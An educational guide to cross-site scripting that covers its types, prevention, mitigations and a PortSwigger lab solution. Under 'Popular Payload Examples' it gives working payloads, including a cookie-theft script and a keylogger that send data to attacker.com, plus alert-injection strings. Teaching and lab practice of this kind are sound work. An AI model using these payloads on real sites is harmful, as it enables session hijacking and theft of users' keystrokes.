 # Cross-Site Scripting (XSS)

## Introduction
Cross-Site Scripting (XSS) is a type of security vulnerability typically found in web applications. XSS attacks occur when an attacker can inject malicious scripts into web pages viewed by other users. These scripts can hijack user sessions, deface websites, or redirect users to malicious sites.

## Types of XSS
1. **Stored XSS**: The malicious script is permanently stored on the target server, such as in a database, and is served to users when they request the stored information.
2. **Reflected XSS**: The malicious script is reflected off a web server, such as in an error message or search result, and is sent to the user's browser immediately.
3. **DOM-based XSS**: The vulnerability is within the client-side code rather than the server-side, allowing manipulation of the DOM environment in the victim's browser.

## Basic Theory
XSS vulnerabilities arise due to improper validation or escaping of user input. To prevent XSS:
- **Input Validation**: Validate and sanitize all user inputs.
- **Output Encoding**: Encode data before rendering it on the page.
- **Content Security Policy (CSP)**: Implement CSP to restrict sources of executable scripts.

## Popular Payload Examples
1. **Basic Alert**
    ```html
    <script>alert('XSS');</script>
    ```

2. **Cookie Theft**
    ```html
    <script>
      var img = new Image();
      img.src = "http://attacker.com/steal?cookie=" + document.cookie;
    </script>
    ```

3. **Keylogger**
    ```html
    <script>
      document.onkeypress = function(e) {
        var xhr = new XMLHttpRequest();
        xhr.open("GET", "http://attacker.com/log?key=" + e.key, true);
        xhr.send();
      };
    </script>
    ```

## Mitigation Techniques
- **Escape Untrusted Data**: Ensure that any untrusted data is properly escaped before it is rendered in the browser.
- **Use Secure APIs**: Prefer secure APIs that automatically escape data.
- **HTTPOnly Cookies**: Use HTTPOnly flag for cookies to prevent access via JavaScript.

## Conclusion
Regularly audit your code, stay updated with the latest security practices, and educate your team about common vulnerabilities and their prevention.

## Resources
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [MDN Web Docs on XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)

## Lab Examples
[Lab: Reflected XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)

This lab contains a simple reflected cross-site scripting vulnerability in the search functionality.

To solve the lab, perform a cross-site scripting attack that calls the alert function. 

**Solution:**
```
"><script>alert('hacked');</script>
```
